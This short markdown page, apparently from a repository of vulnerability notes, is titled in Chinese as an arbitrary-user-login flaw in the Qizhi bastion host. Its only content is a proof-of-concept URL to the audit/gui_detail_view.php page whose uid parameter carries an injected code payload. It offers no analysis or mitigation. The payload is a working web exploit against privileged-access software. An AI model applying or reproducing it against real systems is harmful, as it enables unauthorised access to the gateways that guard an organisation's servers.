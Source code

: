 # 齐治堡垒机任意用户登录漏洞
漏洞POC:

    http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%201